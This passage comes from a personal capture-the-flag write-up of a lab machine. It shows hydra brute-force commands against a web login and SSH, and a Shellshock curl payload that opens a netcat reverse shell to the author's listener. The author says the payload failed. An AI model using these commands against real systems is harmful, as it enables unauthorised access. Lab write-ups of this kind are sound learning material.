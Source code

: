 ```
# For the login form
└─$ sudo hydra -v -I -l admin -P /usr/share/wordlists/fasttrack.txt 10.10.10.28 http-post-form "/cdn-cgi/login/index.php:username=admin&password=^PASS^:Log in" -e nsr -f

# For the SSH server
$ hydra -I -l root -P /usr/share/wordlists/fasttrack.txt 10.10.10.28 ssh -t 4 -v -e nsr -f 
```

I could also use rockyou.txt but since we're going over a network, my request rate is really low and I don't want to wait... 2 or 3 months... for a result :P

TLDR; no luck with our (very limited) brute force.

### Shell Shock

A simple exploit to try which may or may not work is Shell Shock.  You can read about it online in various places, but basically it's an RCE that uses request headers and is quite trivial to exploit.

```
# First we start our server:
$ nc -nlvp 443

# Then we curl the remote server with our payload
$ curl -H "X-Frame-Options: () {:;};echo;/bin/nc -e /bin/bash 10.10.14.47 443" 10.10.10.28/cdn-cgi/login/index.php
```

And it doesn't work... no connection back to our netcat server.

### End of Day 1

I'm at the end of my first attempt on this server.  Gonna walk away for a little while.

Next Steps:
1. Look deeper into the source of that website.  Play more with index.php/admin.php/db.php
2. Do a more complete nmap scan -- higher ports, UDP, more scripts
3. Try more domain / file URL enumeration with different suffixes, let it run overnight

I do suspect the php scripts.  Maybe there's evidence of a cookie I need to set or a password hanging out in the JS files or something.  The box is supposed to be "very easy" right, so maybe I'm missing something very simple :)

## Day 2

Today I started with some aggressive nmap scans, including http-* and ssh-* scripts, to no avail.  I went back through and tried to guess more files and fell short.  I re-visted the HTML code and found nothing new of interest.  I even re-visted `searchsploit` and while I found an SSL vulnerability I had previously overlooked, this site does not use SSL and so trying to decipher that assembler code and the memory addresses associated with that payload seems moot.

I once again turned my attention to the login form.

### The Login Form
